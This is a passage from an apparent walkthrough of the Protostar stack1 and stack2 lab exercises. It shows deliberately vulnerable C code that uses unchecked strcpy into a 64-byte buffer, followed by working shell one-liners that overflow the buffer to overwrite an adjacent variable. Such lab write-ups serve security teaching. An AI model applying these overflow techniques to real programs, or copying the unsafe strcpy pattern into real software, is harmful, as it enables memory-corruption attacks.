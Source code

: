 ```lang-clike line-numbers 

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
    printf("you have correctly got the variable to the right value\n");
  } else {
    printf("Try again, you got 0x%08x\n", modified);
  }
}
```

Solution:
```lang-bash line-numbers 
user@protostar:~$ /opt/protostar/bin/stack1 `python -c 'print("A"*64 + "\x64\x63\x62\x61")'`
you have correctly got the variable to the right value
```

##Stack2
[Stack2](http://www.exploit-exercises.com/protostar/stack2) gives us the following code:

```lang-clike line-numbers 
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
    errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
    printf("you have correctly modified the variable\n");
  } else {
    printf("Try again, you got 0x%08x\n", modified);
  }

}
```

Solution:
```lang-bash line-numbers 
user@protostar:~$ export GREENIE=`python -c 'print("A"*64 + "\x0a\x0d\x0a\x0d")'`
user@protostar:~$ /opt/protostar/bin/stack2
you have correctly modified the variable
```
